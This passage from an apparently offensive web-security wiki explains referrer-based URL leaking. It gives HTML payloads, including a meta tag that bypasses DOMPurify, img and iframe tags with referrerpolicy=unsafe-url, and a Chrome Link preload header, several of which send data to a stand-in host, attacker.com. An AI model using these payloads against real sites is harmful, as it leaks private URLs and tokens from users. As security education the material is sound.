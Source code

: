 It allows a very simple way to leak the current URL through DOMPurify:

<pre class="language-html"><code class="lang-html"><strong>&#x3C;meta name="referrer" content="unsafe-url">
</strong>&#x3C;!-- Even though the above is sanitized away, it still applies to image that is left over -->
<strong>&#x3C;img src="https://attacker.com">
</strong></code></pre>
{% endhint %}

#### Attribute Injection

Individual elements can also be altered using the `referrerpolicy=` attribute. This is useful if you have an attacker-controlled resource:

```html
<img src="http://attacker.com" referrerpolicy="unsafe-url">
```

{% hint style="warning" %}
The `<meta>` tag and `referrerpolicy=` methods don't work on Firefox, as it denies less restricted policies via HTML for cross-site requests. Unless you are able to retrieve the Referer header from a same-site in any way, of course.
{% endhint %}

For more elements that request a certain URL and that you may control to send a referer to, check out the repository below with all known ways:

{% embed url="https://github.com/cure53/HTTPLeaks/blob/main/leak.html" %}
All known ways to send HTTP requests using markup
{% endembed %}

When cross-site connections to your attacker's server aren't allowed by a CSP, for example, you may be able to use an `<iframe>` with a `srcdoc=` or `src=data:`. This allows you to provide an inline document that will handle the request, and can read `document.referrer`.

<pre class="language-html" data-title="Examples" data-overflow="wrap"><code class="lang-html">&#x3C;!-- If you are able to inject this, you'll be same-origin with the parent anyway -->
<strong>&#x3C;iframe srcdoc="&#x3C;script>alert(document.referrer)&#x3C;/script>" referrerpolicy="unsafe-url">&#x3C;/iframe>
</strong>
&#x3C;!-- Even though data: normally gets a 'null' origin, it can still read referrer -->
<strong>&#x3C;iframe src="data:text/html,&#x3C;script>alert(document.referrer)&#x3C;/script>" referrerpolicy="unsafe-url">&#x3C;/iframe>
</strong></code></pre>

#### Link response header with preload (Chrome < 136)

This next trick was a Chrome bug shared by [@slonser 🐘](https://x.com/slonser_/status/1919439373986107814) _fixed in version 136_.\
The referrer policy for a preload request that you give in a `Link:` response header to any subresource that goes to your server, will be applied to the current documentt.

What this means is that all you need is for the target to load an `<img>` that points to your server, and you can return the following response header:

```http
Link: </leak>; rel=preload; as=image; referrerpolicy=unsafe-url
```
